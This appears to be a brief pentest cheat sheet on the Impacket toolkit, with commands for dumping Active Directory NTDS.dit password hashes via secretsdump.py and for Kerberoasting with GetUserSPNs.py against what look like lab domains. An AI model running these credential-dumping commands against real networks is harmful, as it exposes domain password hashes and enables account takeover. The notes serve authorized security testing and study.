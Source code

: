 # Impacket

Impacket is a suit of tool used to pentest Active Directories


## Useful pieces of code
- GetNPUsers.py (ASREP-Roasting)
- GetUserSPNs.py (Kerberoasting)
- secretDump.py (NTDS secrets)


## Dump NTDS.dit secrets w/ secretdump.py
Requirements : Credentials
```bash
secretsdump.py -just-dc backup@spookysec.local
```	
## Dump NTDS.dit secrets w/ secretdump.py
Requirements : NTDS.dit and SYSTEM files
```bash
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL
```

## Kerberoast
This following command line will dump Kerberos hashes and return any kerberoastable users.  
Requirements : Credentials
```bash
GetUserSPNs.py controller.local/"username":"password" -dc-ip <IP> -request
```